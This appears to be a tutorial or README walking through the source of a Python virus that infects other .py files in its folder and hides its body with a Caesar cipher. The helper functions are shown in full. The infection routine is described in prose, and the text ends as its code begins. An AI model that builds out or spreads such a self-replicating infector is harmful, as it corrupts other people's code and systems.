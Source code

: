 The malware below will be a germ, this is a plain text program that will generate a virus (in this case with an 
encrypted part). This germ will contain a function to encrypt and another to decrypt the code, it will also have a 
function for calculating the key with which the data is encrypted.

The different parts of the germ that will be created are the following:
- **calculate_key** function: this function calculates the encryption key from the first letters of a file. In case the 
  file contains less than 3 letters the returned key is 42.

```python
def calculate_key(text):
    if len(text) >= 3:
        key = ord(text[0]) + ord(text[1]) + ord(text[2])
    else:
        key = 42
    return key
```

- **decrypt** function: this function decrypts encrypted text with Caesar cipher.
```python
def decrypt(text, key):
    decrypted_text = ""
    for character in text:
        if character.isupper():
            decrypted_text += chr((ord(character) - key - 65) % 26 + 65)
        elif character.islower():
            decrypted_text += chr((ord(character) - key - 97) % 26 + 97)
        else:
            decrypted_text += character
    return decrypted_text
```

- **encrypt** function: this function encrypts a text with Caesar cipher.
```python
def encrypt(text, key):
    encrypted_text = ""
    for character in text:
        if character.isupper():
            encrypted_text += chr((ord(character) + key - 65) % 26 + 65)
        elif character.islower():
            encrypted_text += chr((ord(character) + key - 97) % 26 + 97)
        else:
            encrypted_text += character
    return encrypted_text
```

Note: The encryption and decryption functions have only changed uppercase and lowercase letters. The rest of the 
characters leave us the same.

- **infect** function: this function searches the folder from where the virus is running for files that have the .py 
  extension to infect them. If there is a file with this extension, the file will be opened and it will be checked if 
  it contains the string "del calcula_clave", if it does not have it, the following actions will be done:
  - The functions "encrypt", "infect", "payload" and "run" will be encrypted.
  - The calculate_key and decrypt functions will be added to the file to be infected.
  - A code will be created to decrypt the encrypted text.
  - The encrypted code and the code to decrypt it will be added at the end of the file to be infected.
```python
def infect(virus):
    import os
    for file in os.listdir("."):
        if file.endswith(".py"):
```
